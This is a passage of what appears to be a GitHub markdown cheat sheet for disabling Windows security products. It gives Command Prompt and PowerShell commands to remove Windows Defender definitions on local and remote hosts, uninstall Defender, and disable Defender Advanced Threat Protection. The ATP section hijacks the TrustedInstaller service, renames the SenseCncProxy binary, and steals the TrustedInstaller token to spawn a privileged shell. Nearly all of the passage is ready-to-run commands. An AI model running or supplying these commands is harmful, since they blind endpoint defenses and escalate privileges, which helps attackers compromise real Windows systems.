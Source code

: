 ### 2.2 - Remove Definitions

#### 2.2.1 - Command Prompt

```
C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -all

C:\> winrs.exe -remote:<IP> "\"C:\Program Files\Windows Defender\MpCmdRun.exe\" -RemoveDefinitions -all"
```

#### 2.2.2 - Powershell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -all }
```

### 2.3 - Uninstall

#### 2.3.1 - Command Prompt

```
C:\> Dism.exe /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
```

#### 2.3.2 - Powershell

```
PS C:\> Uninstall-WindowsFeature -Name Windows-Defender

PS C:\> Remove-WindowsFeature -Name Windows-Defender -Restart
```

## 03 - Disable Advanced Threat Protection

### 3.1 - Disable Endpoint

#### 3.1.1 - Command Prompt

```
C:\> sc.exe config TrustedInstaller binpath="cmd /c sc stop diagtrack & sc config diagtrack binpath='useless value'" && sc start TrustedInstaller

C:\> whoami.exe /groups | findstr Trusted

C:\> ren.exe "C:\Program Files\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" SenseCncProxi.exe
```

#### 3.1.2 - Powershell

```powershell
PS C:\> Set-NtTokenPrivilege SeDebugPrivilege
Start-Service TrustedInstaller
$process = Get-NtProcess -Name TrustedInstaller.exe
$token = $process.OpenToken()
$token.Groups | Where-Object ($_.$id.Name -match "TrustedInstaller")
$proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $process
```
